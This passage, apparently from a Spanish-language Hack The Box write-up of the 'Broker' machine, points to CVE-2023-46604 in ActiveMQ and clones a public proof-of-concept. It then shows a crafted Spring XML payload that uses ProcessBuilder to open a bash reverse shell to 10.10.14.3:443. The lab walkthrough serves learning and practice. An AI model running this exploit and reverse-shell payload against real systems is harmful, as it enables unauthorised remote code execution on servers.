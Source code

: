 <img src="/assets/hackthebox/img/machines/easy/broker/4.png">
</p>

- Si investigamos encontramos una vulnerabilidad la cual nos otorga RCE <https://nvd.nist.gov/vuln/detail/CVE-2023-46604>.

- Aquí nos explican como funciona la vulnerabilidad <https://github.com/evkl1d/CVE-2023-46604/tree/main>.

- Vamos a clonarlos el proyecto para poder enviar el `XML`.

```bash
❯ git clone https://github.com/evkl1d/CVE-2023-46604
Cloning into 'CVE-2023-46604'...
remote: Enumerating objects: 22, done.
remote: Counting objects: 100% (22/22), done.
remote: Compressing objects: 100% (17/17), done.
remote: Total 22 (delta 5), reused 13 (delta 3), pack-reused 0 (from 0)
Receiving objects: 100% (22/22), 5.10 KiB | 746.00 KiB/s, done.
Resolving deltas: 100% (5/5), done.
❯ cd CVE-2023-46604
```

- Vamos a editar el `xml` que envié el exploit para obtener la reverse shell.

```bash
❯ cat poc.xml
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>bash -i &gt;&amp; /dev/tcp/10.10.14.3/443 0&gt;&amp;1</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```
